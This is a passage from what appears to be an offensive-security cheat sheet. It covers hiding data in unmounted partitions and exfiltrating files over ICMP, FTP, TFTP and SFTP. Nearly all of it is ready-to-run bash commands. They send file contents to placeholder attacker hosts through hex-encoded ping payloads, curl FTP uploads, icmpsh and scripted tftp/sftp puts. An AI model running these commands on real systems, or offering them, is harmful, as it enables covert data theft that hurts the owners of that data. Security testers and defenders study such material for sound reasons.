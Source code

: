 #### File Hiding in Hidden Partitions
- **Create hidden partitions to store exfiltrated data:** Create a new partition and do not mount it for covert data storage.
	```bash
	fdisk /dev/sda
	```

# Data Exfiltration via Standard Protocols

#### ICMP
- **Exfiltrate data using ICMP payload:**
	```bash
	ping -c 1 -p $(cat /path/to/file | xxd -p | tr -d '\n') <attack_ip>
	```
- **Use `ping` for Simple ICMP Exfiltration:**
	```bash
	ping -c 1 -p $(echo -n "data_to_exfiltrate" | xxd -p) <remote_ip>
	```
- **Exfiltrate Data Over ICMP Using `icmpsh`:**
	```bash
	./icmpsh -t <remote_ip> -d <local_ip>
	```

#### FTP
- **Exfiltrate Files Using FTP:**
	```bash
	ftp <remote_ip> put /path/to/local_file
	```
- **Automate FTP Exfiltration with a Script:**
	```
	ftp -n <remote_ip> <<EOF user <username> <password> cd /path/to/remote_directory put /path/to/local_file bye EOF
	```
- **Upload file via FTP using Curl:**
	```bash
	curl -T /path/to/file ftp://<attack_ip>/path/to/destination --user <username>:<password>
	```

#### TFTP (Trivial File Transfer Protocol)
- **Upload a File to a TFTP Server:**
	```bash
	tftp <remote_ip> tftp> put /path/to/local_file
	```
- **Automate TFTP Exfiltration:**
	```bash
	echo -e "put /path/to/local_file\nquit" | tftp <remote_ip>
	```

#### SFTP
- **Exfiltrate Files Using SFTP:**
	```bash
	sftp <username>@<remote_ip> put /path/to/local_file
	```
- **Exfiltrate Multiple Files Using SFTP:**
	```bash
	sftp <username>@<remote_ip> mput /path/to/local_files/* 
	```
